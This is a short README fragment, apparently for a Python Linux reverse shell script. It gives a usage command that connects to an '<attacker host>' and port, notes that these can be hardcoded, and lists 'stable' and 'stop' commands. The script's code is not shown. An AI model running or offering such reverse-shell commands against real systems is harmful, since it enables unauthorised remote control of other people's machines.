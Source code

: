 "Linux Simple"

Simple shell, usage:

python3 simple_linux_rev_shell.py --host <attacker host> --port <attacker port>

You can also comment args parser and input ip:port in the code.

**Commands:**
- **stable:** try to establish connection (You can not use Ctrl+C, TABs and etc)
- **stop:** break the connection
- Linux standard commands

